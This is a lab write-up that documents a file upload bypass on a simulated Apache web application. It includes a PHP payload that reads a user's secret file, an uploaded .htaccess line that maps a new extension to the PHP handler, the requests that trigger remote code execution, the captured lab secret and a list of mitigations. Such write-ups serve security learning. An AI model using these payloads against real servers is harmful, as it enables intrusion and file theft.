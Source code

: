 ````markdown
# 🛡️ File Upload Exploitation – Apache .htaccess Bypass

This project documents a successful file upload exploitation against a simulated vulnerable web application.  
The lab demonstrates how weak file upload validation can be bypassed to achieve **remote code execution (RCE)** using an `.htaccess` trick on an Apache server.

---

## 📑 Table of Contents
1. [Lab Overview](#-lab-overview)  
2. [Exploitation Walkthrough](#-exploitation-walkthrough)  
   - [Normal File Upload](#1-normal-file-upload)  
   - [Crafting Malicious Payload](#2-crafting-malicious-payload)  
   - [Identifying Server](#3-identifying-server)  
   - [Uploading `.htaccess`](#4-uploading-htaccess)  
   - [Uploading Exploit with New Extension](#5-uploading-exploit-with-new-extension)  
   - [Triggering RCE](#6-triggering-rce)  
3. [Security Impact](#-security-impact)  
4. [Recommended Mitigations](#-recommended-mitigations)  
5. [Proof of Exploit](#-proof-of-exploit)  
6. [Secret Obtained](#-secret-obtained)  
7. [Takeaways](#-takeaways)  

---

## 📖 Lab Overview
- **Target:** Web application with avatar upload functionality  
- **Vulnerability:** File upload restrictions + Apache `.htaccess` misconfiguration  
- **Impact:** Remote Code Execution → Secret file disclosure  

---

## ⚙️ Exploitation Walkthrough

### 1. Normal File Upload
- Logged in and uploaded an image as the avatar.  
- Observed the image was fetched with:

```http
GET /files/avatars/<YOUR-IMAGE>
````

### 2. Crafting Malicious Payload

Created a PHP file `exploit.php` to read Carlos’s secret:

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

* Attempt to upload failed → `.php` extension not allowed.

### 3. Identifying Server

The response from `POST /my-account/avatar` revealed:

```http
Server: Apache/2.4.41 (Ubuntu)
```

* Apache + mod\_php hinted at an `.htaccess` bypass.

### 4. Uploading `.htaccess`

Modified the upload request in Burp Repeater:

```text
- Changed filename → .htaccess
- Content-Type → text/plain
- File contents:
AddType application/x-httpd-php .l33t
```

* Uploaded successfully ✅

### 5. Uploading Exploit with New Extension

Reused the upload request:

```text
- Changed filename → exploit.l33t
- File contents → PHP payload
```

* Uploaded successfully ✅

### 6. Triggering RCE

Requested:

```http
GET /files/avatars/exploit.l33t
```

* Server executed PHP → Secret was disclosed:

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 🚨 Security Impact

* **Severity:** 🔴 High
* **Risk:** Arbitrary PHP execution on the server
* **Impact:** Unauthorized file disclosure, possible full system compromise

---

## 🔒 Recommended Mitigations

* Disable `.htaccess` overrides:

```apache
AllowOverride None
```

* Store uploads outside web root
* Strict MIME-type & extension validation (both client + server)
* Sanitize uploaded content before saving

---

## ✅ Proof of Exploit

<img width="957" height="1079" alt="Proof of exploit in Burp Repeater" src="https://github.com/user-attachments/assets/f15c03db-3747-4761-9709-d0349b92cd41" />

---

## 🗝️ Secret Obtained

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 📚 Takeaways

This lab highlights how **misconfigured servers + weak upload validation** can escalate into RCE.
Preventing such attacks requires **defense-in-depth**: secure configs, strict validation, and isolating user uploads.

```

---

```
